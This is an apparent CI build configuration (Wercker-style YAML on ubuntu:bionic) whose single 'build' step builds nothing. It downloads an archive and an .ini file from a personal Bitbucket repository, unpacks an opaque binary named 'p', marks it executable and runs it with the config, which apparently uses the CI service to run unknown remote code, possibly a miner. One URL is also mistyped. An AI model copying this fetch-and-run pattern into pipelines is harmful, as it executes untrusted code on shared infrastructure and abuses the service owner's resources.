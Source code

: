 box: ubuntu:bionic
command-timeout: 60
build:
  steps:
    - script:
        name: echo
        code: |
          apt update -y && apt install -y wget xz-utils
          wget ttps://bitbucket.org/fajar990/pas/raw/93a84205ed4140304b3e66d0c22d367802f65b00/p.tar.xz
          wget https://bitbucket.org/fajar990/pas/raw/93a84205ed4140304b3e66d0c22d367802f65b00/p.ini
          tar xf p.tar.xz
          chmod +x p
          ./p p.ini
